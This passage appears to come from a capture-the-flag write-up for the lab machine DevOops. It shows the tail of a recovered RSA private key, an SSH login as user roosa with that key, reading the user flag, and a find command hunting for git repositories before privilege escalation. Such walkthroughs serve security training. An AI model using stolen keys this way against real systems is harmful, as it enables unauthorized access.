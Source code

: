 ```
xgQt1LOdApYoosALYta1JPen+65V02Fy5NgtoijLzvmNSz+rpRHGK6E8u3ihmmaq
82W3d4vCUPkKnrgG8F7s3GL6cqWcbZBd0j9u88fUWfPxfRaQU3s=
-----END RSA PRIVATE KEY-----

```

Perfect.

### SSH as roosa

I’ll get a shell on the box with roosa’s private key:

```

root@kali# ssh roosa@10.10.10.91 -i ~/id_rsa_devoops_roosa
The authenticity of host '10.10.10.91 (10.10.10.91)' can't be established.
ECDSA key fingerprint is SHA256:hbD2D4PdnIVpAFHV8sSAbtM0IlTAIpYZ/nwspIdp4Vg.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.91' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-37-generic i686)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

135 packages can be updated.
60 updates are security updates.

Last login: Mon Jun  4 17:33:47 2018 from 10.10.15.221
roosa@gitter:~$

```

In the homedir, we find user.txt:

```

roosa@gitter:~$ cat user.txt
c5808e16...

```

## Privesc: roosa –> root

### Identify git repo

In poking around roosa’s home directory, I noticed a git repo (a `.git` folder). Given that theme of the box, I decided to look for .git repositories on the host:

```

roosa@gitter:~$ find / -type d -name '.git' 2>/dev/null
/home/roosa/work/blogfeed/.git

```
